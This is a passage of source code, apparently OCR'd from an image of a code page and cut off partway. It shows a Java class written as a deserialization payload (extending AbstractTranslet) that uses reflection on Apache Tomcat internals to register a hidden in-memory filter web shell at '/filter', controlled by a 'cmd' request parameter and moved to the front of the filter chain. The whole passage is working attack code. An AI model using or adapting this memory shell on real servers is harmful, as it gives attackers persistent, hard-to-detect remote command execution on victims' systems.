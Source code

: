 ```bash
import java.lang.reflect.Method;
import java.util.Map;

public class Serialize_FilterMemshell extends AbstractTranslet implements Filter{

    private final String cmdParamName = "cmd";
    private final static String filterUrlPattern = "/filter";
    private final static String filterName = "TestFilter";

    static {
        try {
            //获取StandardContext
            Class c = Class.forName("org.apache.catalina.core.StandardContext");
            java.lang.reflect.Field contextField = org.apache.catalina.core.StandardContext.class.getDeclaredField("context");
            contextField.setAccessible(true);
            org.apache.catalina.loader.WebappClassLoaderBase webappClassLoaderBase =
                    (org.apache.catalina.loader.WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            org.apache.catalina.core.ApplicationContext applicationContext = (org.apache.catalina.core.ApplicationContext) contextField.get(webappClassLoaderBase.getResources().getContext());
            Field stdctx = applicationContext.getClass().getDeclaredField("context");  // 获取属性
            stdctx.setAccessible(true);
            StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
            //获取filterConfigs
            Field Configs = Class.forName("org.apache.catalina.core.StandardContext").getDeclaredField("filterConfigs");
            Configs.setAccessible(true);
            Map filterConfigs = (Map) Configs.get(standardContext);
            if (filterConfigs.get(filterName) == null){
                Filter filter=new Serialize_FilterMemshell();

                FilterDef filterDef = new FilterDef();
                filterDef.setFilter(filter);
                filterDef.setFilterName(filterName);
                filterDef.setFilterClass(filter.getClass().getName());
                standardContext.addFilterDef(filterDef);

                FilterMap filterMap = new FilterMap();
                filterMap.addURLPattern("/filter");
                filterMap.setFilterName(filterName);
                filterMap.setDispatcher(DispatcherType.REQUEST.name());

                standardContext.addFilterMapBefore(filterMap);

                Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
                constructor.setAccessible(true);
                ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);

                filterConfigs.put(filterName,filterConfig);

                if (standardContext != null){
                    //将我们的filter放到最前面
                    Class ccc = null;
                    try {
                        ccc = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
                    } catch (Throwable t){}
                    if (ccc == null) {
                        try {
                            ccc = Class.forName("org.apache.catalina.deploy.FilterMap");
                        } catch (Throwable t){}
```